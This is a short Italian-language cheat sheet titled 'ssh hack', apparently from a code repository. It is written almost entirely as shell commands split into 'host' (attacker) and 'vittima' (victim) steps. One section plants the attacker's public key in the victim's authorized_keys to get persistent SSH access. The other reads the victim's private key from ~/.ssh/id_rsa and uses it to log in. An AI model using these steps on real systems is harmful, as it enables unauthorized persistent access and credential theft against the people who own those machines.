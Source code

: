# ssh hack

## aggiungere PUB_KEY 

host:
```
ssh-keygen -t rsa
export PUBLIC_KEY=$(cat <key.pub>)
```

vittima:
```
mkdir -p /home/<USER>/.ssh
echo $PUBLIC_KEY >> /home/<USER>/.ssh/authorized_keys
```


## furto della PRIV_KEY

vittima (copiare negli appunti):
```
cat /<USER>/.ssh/id_rsa
```

host (incollare `./priv_key`):
```
ssh -i priv_key <IP>
```

